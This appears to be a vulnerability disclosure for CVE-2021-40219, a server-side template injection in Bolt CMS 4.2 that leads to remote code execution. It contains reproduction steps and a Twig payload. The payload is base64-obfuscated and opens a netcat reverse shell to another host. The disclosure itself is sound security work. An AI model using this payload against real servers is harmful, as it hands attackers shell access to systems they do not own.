 
<h1>CVE-2021-40219</h1>


```Bolt CMS```


SSTI to Remote Code Execution


Reported by S1lv3r

```Description :```

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php, 
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

TemplateController.php line 25:
return $this->render($templates, []);

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


```Version :```
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

```Attack Type:```
Remote

```Impact :```
Remote Command Execution


```PoC : ```

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
```References:```
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 

CVE-2021-40219
